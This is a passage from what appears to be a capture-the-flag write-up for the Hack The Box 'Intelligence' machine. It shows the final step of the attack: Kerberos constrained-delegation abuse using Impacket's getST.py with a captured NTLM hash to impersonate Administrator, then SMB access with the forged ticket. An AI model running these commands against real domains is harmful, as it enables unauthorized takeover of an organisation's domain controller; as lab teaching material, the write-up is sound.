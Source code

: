 ![](/assets/img/intelligence/14.png)


solution for this one we have to change the clock settings on the machine to match the LDAP server or Domain Controller. we can take advantages of `ntpdate` tools,
execute command below will retrive the ticket without error.

```bash
ntpdate 10.10.10.248 | getST.py -spn www/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :67065141d298d67a17ee8626476b20f9 -dc-ip 10.10.10.248
```

![](/assets/img/intelligence/15.png)


export the kerberoast ticket 

```bash
export KRB5CCNAME=Administrator.ccache
```

then reuse `smbclient.py` from impacket to access smb share, we obtain administrator access. 

```bash
smbclient.py -k intelligence.htb/Administrator@dc.intelligence.htb -no-pass
```

![](/assets/img/intelligence/17.png)
